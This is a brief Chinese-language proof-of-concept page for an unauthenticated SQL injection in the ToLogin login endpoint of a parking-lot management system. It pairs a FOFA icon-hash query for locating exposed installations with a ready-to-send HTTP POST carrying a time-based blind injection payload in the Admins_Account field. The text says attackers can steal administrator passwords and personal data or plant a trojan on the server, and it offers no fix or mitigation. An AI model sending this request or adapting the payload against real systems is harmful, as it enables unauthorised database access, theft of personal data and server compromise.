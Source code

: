 # 智能停车管理系统ToLogin存在SQL注入漏洞

停车场后台管理系统 ToLogin 存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用&nbsp;SQL&nbsp;注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```yaml
icon_hash="938984120"
```

## poc

```java
POST /Login/ToLogin HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
 
Admins_Account=1' AND (SELECT 8104 FROM (SELECT(SLEEP(5)))dEPM) AND 'JYpL'='JYpL&Admins_Pwd=
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408162052998.png)
